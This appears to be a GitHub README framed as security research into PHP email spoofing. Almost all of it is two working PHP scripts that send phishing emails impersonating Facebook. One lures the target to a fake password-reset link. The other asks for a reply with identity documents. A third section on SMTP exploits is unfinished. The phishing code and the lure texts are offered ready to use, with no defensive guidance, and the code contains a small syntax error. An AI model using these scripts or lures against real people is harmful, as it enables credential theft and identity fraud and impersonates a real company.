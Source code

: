 # Email-Spoofing-PHP
Breakdown on security research into PHP Email Spoofing.
    

   
## Example 1   
```
<?php
$from = "reallookingemail@fbsecurity.com";
$to = "targetemail@gmail.com";
$display = "FB Security";
$subject = "Password Data Breach";
$message = '<h5>Data Breached</h5><p>Unfortunately we\'ve recently suffered a password database breach on our system, please change your password by following this link. <br><br>Please open this link in your browser or click on the link to automatically be taken to the address.<br><a href="fbsecurity.com/">Password Reset</a></p>';
$reply = "security@facebook.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}
```

> Example PHP Phishing - Using Email Sender Name and ReplyTo.
   
Results in an email from "FB Security" prompting to update password at a fake link.   
   
  
## Example 2   
> In this example we are changing the $from address to spoof a real email address - this is the old method that doesn't work because most provider's will block the fake email address by checking the domains mail (mx) records.
```   
<?php
$from = "support@facebook.com";
$to = "targetemail@gmail.com";

$display = "Facebook";
$subject = "Security Breach";
$message = '<h4>Facebook</h4><p>Unfortunately we\'ve recently suffered a secure database breach on our system, please confirm your identity by replying to this message and attaching 100 points of ID.<br>Security is very important to us at Facebook and we must ask people to now provide identification details to further ensure your safety on our network, we are sorry for this inconvenience. </p>';
$reply = "support@fbsecurity.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}   
```
> Here the attacker has spoofed the From Email address and the Name of the email sender, asking for details. 
  
 
## Example 3 
> Here we look at SMTP Exploits, ( Simple Mail Transfer Protocol ). 
> This section is still being written.
 
   





.
